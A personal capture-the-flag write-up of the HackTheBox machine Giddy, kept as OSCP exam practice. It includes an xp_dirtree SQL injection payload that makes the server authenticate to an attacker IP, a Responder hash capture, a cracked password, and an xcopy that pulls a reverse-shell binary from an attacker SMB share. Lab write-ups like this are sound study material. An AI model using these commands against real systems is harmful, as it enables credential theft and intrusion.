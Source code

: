 # Giddy Walkthrough

Name: Giddy
Date:  8/5/2023
Difficulty:  Medium
Better Description:  
Goals:  OSCP Prep - Ippsec handholding to feel mentored
Learnt:
- Icacls is power
- I was really harsh on my self on trying this solo without looking at this and returning to this really the only issue is - SQLmap could havbe been used and in the real world it would have been.
- I was way too hard on myself when it was not my fault.
- Visual Studio

First the video is three years old and more tools are avaliable to me than to him way back then.

![faceofmadness](Screenshots/faceofmaddness.png)
*"Stare into face of unknowable joy, absolute blankness and pure madness... the man that tried not using SQLmap...waiting for the Boolean to say if 1 of 10s of characters was correct."*

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Giddy/Screenshots/ping.png)

My returning ping for documentation
![](newping.png)

Having fun on attempt speed run without realising that this had responder in it and massive red flag for me generally as on the OSCP you do not need to ever you responder.
![](nmapunderstanding.png)

Added 
```bash
echo '10.129.96.140 giddy' | sudo tee -a /etc/hosts
```

![view-cert](Screenshots/view-cert.png)

Check the details! On return I found this
![](testpowershell.png)

Directory busting with feroxbuster:
![mvc](Screenshots/mvc-dir.png)

The remote page is exposed
![](furtherinspection.png)

I am proud of my enumeration now, but at the time I 3dissapointed.
![](gbtotheremote.png)

Checking out the main mvc product pagew
![](mvc.png)

SQLmap was consider on my second attempt as it is a no-use in OSCP exam...
![](andcommentreturnseverything.png)

Went to the page /mvc/Search.aspx and insta-search for`'`:
![sqlerror](Screenshots/sql-error.png)

![](sqliinjection.png)
I found the second time. 
![](sqliinjection.png)

One thing not noticed in the video `C:\Users\jnogueira\Downloads\owasp10\1-owasp-top10-m1-injection-exercise-files\before\1-Injection\Product.aspx.`
Ippsec demonstrated a more through methodology of testing for `--` aswell to see if it causes an error. Not using `sqlmap` till I finish OSCP.. so I tried it as this box is not on OSCP pwnlist got with id-sqli.req: 

![1080](id-sqli.png)

The union query is nuts and my guess is that an OSCP exam machine is not going to break you with statement that 3 lines long like this.
![](bigrequest.png)


## Exploit

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

![catching](ncat.png)

```bash
responder -I tun0
```

![stacy](hashcapture.png)

Paused video to see if I could try pass the hash. I could not.

![cracked](cracked.png)

```
xNnWo6272k7x
```


## Foothold

Then from the `/remote` with: `giddy\stacy ; xNnWo6272k7x ; giddy`
![](unifivideo.png)

## PrivEsc

This directory is writable, see the 43390.txt poc.
![](icacls-unifi-video.png)

![msfail](xcopythemsfshell.png)

But..
![wd](windowsdefendstrikesagain.png)
Windows Defender removes it... 

Then I went on a research spree on C Sharp,  Undetectable C sharp Reverse Shells and the best Windows-OS VM for ethical hacking for Archive. Returning months later I tried soloing this for a writeup and did not realise that I would really need SQLmap for this machine and then would have need Responder with `xp_cmdshell` so I am proud that I got as far as I did, but it also as a hindsight issue indicative of why some machines are bad for you the time for your growth and psychology. I actually crush the enumeration of the machine it is just blocked by tool usage that is not OSCP-related. Secondly I was really hard on myself with SQLinjection. The actual UNION based injection is three lines long and the other are blind and time-based so by all account the SQLi is one that you would only really get on a real assessment if you used SQLmap, because from all I have heard who actually has the time to do SQLi of that complexity on a time crunch without SQLmap in the 2020s.

![](simplerevshell.png)

Original I just open the file as you may be able to tell as I am not a .NET developer yet I have very, very miminal usege of Visual Studio. I spent more time building the install than using it at this point.  

1. Modify Ip address
2. `File -> Save` - Save your work

Create new Project
`Create NewProject  -> Console App -> Name`

Lose the Solution Explorer?
`Debug -> $nameofproject Debug Properties` at the very bottom of the drop down.

![](actuallybetter.png)

Change Target Framework, because...
`[Right Click]` the `[C#] $projectname` in `Solution Explorer` go to `Properties -> Target Framework`

Compile 
`Build -> Build Solution` 

[Overide the  Language Version](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/configure-language-version), because...
- Manually edit your [project file](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/configure-language-version#edit-the-project-file).
- Set the language version [for multiple projects in a subdirectory](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/configure-language-version#configure-multiple-projects).
- Configure the [**LangVersion** compiler option](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/language#langversion).

I decided given my history with wrestling with applications to try the known good of Golang Reverse shell in place of Taskkill.exe
```powershell
impacket-smbserver share $(pwd)
# Copy 
xcopy \\10.10.14.16\share\taskkill.exe .
# List a Service with the Registry 
set-location 'HKLM:\SYSTEM\CurrentControlSet\Services'
get-childitem . # gci .
get-childitem . | select name
get-childitem . | where-object { $_.Name -like '*UniFiVideoService*'}
```

![](copyxgoshell.png)

Nope, but close
![](nopebutclose.png)